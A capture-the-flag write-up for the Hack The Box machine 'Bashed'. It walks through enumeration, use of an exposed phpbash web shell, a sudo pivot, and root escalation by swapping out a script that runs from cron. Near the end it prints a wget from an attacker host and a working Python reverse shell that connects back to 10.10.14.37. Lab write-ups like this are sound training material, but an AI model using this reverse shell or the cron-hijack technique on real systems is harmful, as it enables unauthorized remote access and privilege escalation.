# Bashed

### Machine Info


#### Nmap



##### HTTP (Port 80)

Index page:



Click the phpbash and check `10.10.10.68/single.html` page:


I checked that `github` address and it is about `phpbash` and I just read the php code and usage:



I feel like we there should be `phpbash.php` or `phpbash.min.php` in somewhere. Let's enumerate more by using `gobuster`:



And from the `http://10.10.10.68/dev`, we can find those 2 `phpbash` files:



Execute `phpbash.min.php` and get a low user shell:


For better interactive, I just created reverse shell using:


`nc` listener on attacking side:



#### Privilege Escalation

Before enumeration, just check for `sudo`:


User `www-data` can run any command with user `scriptmanager`. Let's get shell with user `scriptmanager`:




And from the `/scripts` directory we can get two files:


But we can see that the file `test.txt` is owned by user `root` not `scriptmanager`. And moreover the file `test.txt` is changing every 1 minute:




#### Exploit

Let's just replace that `test.py` with our malicious program and it will be executed by `root` privilege.

Simple Python Reverse Shell:</br>
Just create `test.py` and transfer to victim machine.
```
scriptmanager@bashed:/scripts$ mv test.py .test.py
scriptmanager@bashed:/scripts$ wget http://10.10.14.37:8080/test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.37",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])    
```

And just wait for a minute and from `nc` listener:


And you can get `root.txt` :)
